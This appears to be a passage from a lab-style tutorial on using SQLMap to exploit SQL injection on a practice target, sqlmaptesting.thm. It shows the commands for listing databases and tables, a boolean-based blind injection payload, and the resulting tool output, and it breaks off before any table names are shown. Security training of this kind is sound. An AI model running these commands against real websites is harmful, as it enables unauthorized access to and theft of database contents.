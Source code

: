 The results from the command we executed for our target `http://sqlmaptesting.thm/search/cat=1` tell us that different types of SQL injection are possible on this URL. Let's use SQLMap's flags, which we studied earlier, to exploit them and extract some valuable data from the database.

To fetch the databases, we use the flag `--dbs`. Let's try this flag out with our vulnerable URL:

Extracting databases names  

```shell-session
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:49:00] [INFO] resuming back-end DBMS' mysql' 
[08:49:00] [INFO] testing connection to the target URL
[08:49:01] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]    
[08:49:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:49:01] [INFO] fetching database names
available databases [2]:
[*] users
[*] members

[text removed]
```

After running the above command, we got two database names. Select the `users` database and fetch the tables inside of it. We will define the database after the flag `-D` and use the `--tables` flag at the end to extract all the table names.

Extracting tables

```shell-session
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:50:46] [INFO] resuming back-end DBMS' mysql' 
[08:50:46] [INFO] testing connection to the target URL
[08:50:46] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:50:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
```